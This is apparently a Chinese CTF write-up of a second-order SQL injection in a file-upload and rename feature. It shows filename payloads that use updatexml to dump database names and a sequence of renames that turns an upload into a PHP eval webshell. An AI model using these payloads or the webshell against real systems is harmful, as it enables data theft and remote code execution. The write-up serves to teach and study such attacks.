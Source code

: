 ## 验证存在注入

首先根据前面的报错，判断当前文件的fid是6，再上传一个文件dddd.txt，它的fid就是7，再上传文件名`dddd' where fid=7#`

然后rename处的oldname输入`dddd'%20where%20fid=7#`，newname输入ddddx

那么`rename`SQL语句先执行`select * from file where filename='dddd\' where fid=7#'`

这个文件是存在的，再update执行语句`update file set filename='ddddx', oldname='`<mark style="color:red;">`dddd' where fid=7#`</mark>`' where fid=8`

这就利用第8次上传把dddd的文件名给修改为ddddx了

注入步骤

1. 上传`f.txt`文件，假设fid为15
2. 上传`f' where fid=9 and updatexml(1,concat(0x3a,(select(group_concat(schema_name))from(information_schema.schemata))),1)#.txt`文件
3. rename处oldname输入`f'%20where%20fid=9%20and%20updatexml(1,concat(0x3a,(select(group_concat(schema_name))from(information_schema.schemata))),1)#`，newname随便输，得到所有数据库，`information_schema,mysql,perfor`，再逆序一下就可以得到所有数据库，`information_schema,mysql,performance_schema,test,xdctf`

### 做法

不是注入，那就是改后缀名了getshell。

需要执行rename('upload/shell.txt', 'upload/shell.php')，也就是要让这两句分别返回upload/shell.txt和upload/shell.php

```
$oldname = UPLOAD_DIR . $result["filename"] . $result["extension"];
$newname = UPLOAD_DIR . $req["newname"] . $result["extension"];
```

那么需要数据库中的extension为空，filename为shell.txt

那么需要执行的语句就是`update file set filename='shell.php', oldname='`<mark style="color:red;">`shell.txt',extension='' where fid=1#`</mark>`' where fid=1`

1. 先上传`shell.txt`，fid为1，内容为一句话`<?php eval($_POST[a]);?>`
2. 上传`shell.txt',extension='' where fid=1#.txt`
3. 重命名`shell.txt',extension=''%20where%20fid=1#`为`shell.php`
4. 再重命名shell.php为shell.php.txt
5. 再重命名shell.php.txt为shell.php

![](<../.gitbook/assets/image (2) (1).png>)
